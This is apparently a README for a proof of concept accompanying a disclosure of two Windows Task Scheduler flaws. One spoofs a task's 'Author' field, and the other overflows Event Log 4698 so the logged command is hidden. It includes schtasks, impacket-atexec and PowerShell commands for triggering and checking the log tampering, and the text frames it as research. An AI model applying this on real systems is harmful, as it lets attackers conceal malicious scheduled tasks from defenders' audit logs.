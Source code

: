 # Task Scheduler Logs Poisoning & Tampering
By [Ruben Enkaoua](https://x.com/rubenlabs) and [Cymulate](https://cymulate.com/)
<br>
<br>
[Original Blog: Task Scheduler New Vulnerabilities](https://cymulate.com/blog/task-scheduler-new-vulnerabilities-for-schtasks-exe/)
<br>
<br>

#### Description
<br>
Two new Defense Evasion techniques have been discovered.<br><br>
The first vulnerability is affecting the Task metadatas and the Event Log 4698 "Task Created", allowing an attacker to create a task based on an XML file and poison the "Author" entry to arbitrary data.<br>

The second vulnerability allows to leverage an unlimited allocated buffer in "Author" task metadata, which is handled further by the Windows Event Log, overwriting the whole log description.
The exploit can also be triggered remotely by patching the author entry in the XML file sent over RPC in [impacket-atexec](https://github.com/fortra/impacket/blob/master/examples/atexec.py).
<br>
<br>

#### Requirements
<br>

- Batch Logon rights on the Task Principal for the task to run (Otherwise the metadata / event log is poisoned / overwritten but the task won't run)
- The password of the task principal, if the user creating the task is not admin or doesn't have SeImpersonate privileges
- The Security Policy "Audit Other Object Access Events" is enabled
<br>

#### Command
<br>

> Remote
```bash
# Change the original impacket-atexec script with the uploaded script, and run it with the original arguments
# In order to poison the log with a fake Author entry, change the buffer in the XML file to the desired data. Example: Microsoft Corporation.
impacket-atexec [[domain/]username[:password]@]<targetName or address> command
```
<br>

> Task Poisoning (Metadata / Event Log)
```bash
# Run the script to check if the INJECTED-DATA author name has been set in the task description
schtasks /create /tn poc /xml poc-poisoning.xml /ru <username> /rp <password> /f

# Check if the data has been injected by querying the task. If the author name is INJECTED-DATA the target is vulnerable
schtasks /query /tn poc /xml | findstr /i author
```
<br>

> Task Event Log Overflow
```bash
# Run the script to check if the +3500 bytes payload has been injected in the 4698 Event Log
# If the Log Type is not activated on your machine and you still want to test it, activate it in:
# Local Security Policy -> Advanced Audit Policy Configuration -> System Audit Policies - Local Group Policy Object -> Object Access -> Audit Other Object Access Events -> Select Success
schtasks /create /tn poc /xml poc-overflow.xml /ru <username> /rp <password> /f
```
<br>

> Log Check
```bash
# Check the task log by running the following powershell command. If the <RegistrationInfo> tag is containing a 3500 bytes buffer but not the command executed and the arguments, the target is vulnerable.
Get-WinEvent -FilterHashtable @{LogName='Security'; Id=4698} | Where-Object { $_.Message -like '*poc*' } |  Select-Object -First 1 | Format-List TimeCreated, Message
```
<br>

#### Notes
<br>
This code is for educational and research purposes only.<br>
The author takes no responsibility for any misuse of this code.
